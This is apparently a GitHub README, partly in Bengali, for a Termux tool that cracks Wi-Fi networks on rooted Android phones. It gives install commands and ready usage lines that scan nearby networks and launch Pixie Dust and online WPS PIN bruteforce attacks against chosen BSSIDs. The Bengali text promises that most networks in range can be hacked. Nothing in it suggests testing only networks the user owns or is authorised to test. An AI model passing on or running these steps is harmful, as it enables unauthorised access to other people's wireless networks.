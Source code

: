 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

(https://github.com/tanvirhasan999/Wifi-Hack/assets/168272220/ca10a2b2-9044-4ee9-8fd8-e0e721a76734)

### Installation :

```bash
$ pkg update && pkg upgrade
$ pkg install git python
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python 
$ wpa-supplicant pixiewps iw
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
$ cd Wifi-Hack
$ chmod +x fück-wifi.py
এরপর Wifi অফ করে
$ sudo python fück-wifi.py -i wlan0 -K

পরের বার Tool অপেন করতে 
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K

আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
